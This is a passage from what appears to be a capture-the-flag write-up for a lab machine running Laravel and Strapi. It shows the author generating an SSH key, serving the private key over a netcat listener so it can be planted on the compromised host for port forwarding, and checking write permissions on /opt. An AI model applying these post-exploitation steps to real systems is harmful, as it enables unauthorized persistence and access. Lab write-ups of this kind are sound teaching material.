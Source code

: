 ```
                    </div>

                    <div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
                            Laravel v8 (PHP v7.4.18)
                    </div>
                </div>
            </div>
```

However, there is a problem now! We are unable to access the web service on our local machine and so, we are unable to execute any exploits on this web service. As such, we will have to do port-forwarding so that our local machine can access the localhost. 

First, we will have to generate an SSH key using ```ssh-keygen``` and host it on our local machine.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh-keygen                                                                      2 ⚙
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:QOcxDF7MwRGe9NOBmtlG1lYxoxxSGg2f1qX2cRe8rJ4 kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|      o*X++*+.*o.|
|     o *==+B+* *.|
|      o +B+.B =.+|
|       .+ oo . ++|
|        S.    . .|
|             .   |
|            . .  |
|             E   |
|                 |
+----[SHA256]-----+
                                                                                        
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 6060 < /home/kali/.ssh/id_rsa                                          2 ⚙
listening on [any] 6060 ...
```

Next, we realize that the user ```strapi``` has write permissions on ```/opt``` and we will navigate to the ```/opt``` directory.

```
strapi@horizontall:~/myapi$ ls -la /opt         
ls -la /opt
total 12
drwxr-xr-x  3 root   root   4096 May 26 14:24 .
drwxr-xr-x 24 root   root   4096 Aug 23 11:29 ..
drwxr-xr-x 10 strapi strapi 4096 Sep 19 04:29 strapi
strapi@horizontall:~/myapi$ cd /opt/strapi
cd /opt/strapi
```
